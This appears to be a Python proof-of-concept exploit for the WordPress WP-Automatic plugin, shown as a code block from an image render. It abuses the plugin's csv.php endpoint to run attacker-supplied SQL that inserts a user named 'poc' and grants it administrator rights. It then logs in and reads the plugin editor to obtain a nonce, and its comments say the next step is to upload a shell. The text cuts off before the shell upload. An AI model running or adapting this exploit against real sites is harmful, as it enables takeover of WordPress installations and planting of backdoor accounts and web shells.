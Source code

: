 
```python=
import requests
import hashlib

domain = "http://localhost:80/wordpress"
listenIP = "127.0.0.1"
listenPort = "1415"
wp_automatic_url = domain + "/wp-content/plugins/wp-automatic/inc/csv.php"
headers = {"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:123.0) Gecko/20100101 Firefox/123.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Connection": "close", "Upgrade-Insecure-Requests": "11", "Content-Type": "application/x-www-form-urlencoded"}

# INSERT new user
data = {"q": "INSERT INTO wp_users (user_login, user_pass, user_nicename, user_email, user_registered, user_status) VALUES ('poc', MD5('poc'), 'poc', 'poc@localhost.org', NOW(), 0)", "auth": " ", "integ": "2420edd07fd8ceb35f9393e40305f37c"}
r = requests.post(wp_automatic_url, headers=headers, data=data)

#Find ID of the user we just insert, change max if you think the ID is bigger than 10
max = 10
for id in range (0, max):
    data["q"] = "SELECT * FROM `wp_users` WHERE user_login='poc' AND ID=" + str(id)
    data["integ"] = hashlib.md5(data["q"].encode()).hexdigest()
    response = requests.post(wp_automatic_url, headers=headers, data=data)
    if ",,," in response.text:
        id = str(id)
        break

#Add Role Administrator to the user
data["q"] = "INSERT INTO wp_usermeta (user_id, meta_key, meta_value) VALUES (" + id + ", 'wp_capabilities', 'a:1:{s:13:\"administrator\";b:1;}'), (" + id + ", 'wp_user_level', '10')"
data["integ"] = hashlib.md5(data["q"].encode()).hexdigest()
r = requests.post(wp_automatic_url, headers=headers, data=data)

print('Successfully add Administrator account poc:poc')

# Login 
login_url = domain + "/wp-login.php"
headers = {"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:123.0) Gecko/20100101 Firefox/123.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "application/x-www-form-urlencoded", "Origin": "http://localhost", "Connection": "close", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-User": "?1"}
data = {"log": "poc", "pwd": "poc", "wp-submit": "Log In", "redirect_to": "http://localhost/wordpress/wp-admin/users.php", "testcookie": "1"}
session = requests.session()
session.post(login_url, headers=headers, data=data)

# I choose index.php in wp-automatic plugin to upload the shell
# You can choose another file by changing the edit_wp_automatic_url
# First we need to find the `nonce` 
edit_wp_automatic_url = domain + "/wp-admin/plugin-editor.php?plugin=wp-automatic%2Findex.php&Submit=Select"
headers = {"User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:123.0) Gecko/20100101 Firefox/123.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate, br", "Connection": "close", "Upgrade-Insecure-Requests": "1", "Sec-Fetch-Dest": "document", "Sec-Fetch-Mode": "navigate", "Sec-Fetch-Site": "none", "Sec-Fetch-User": "?1"}
r = session.get(edit_wp_automatic_url , headers=headers)

r = r.text.split('\n')
```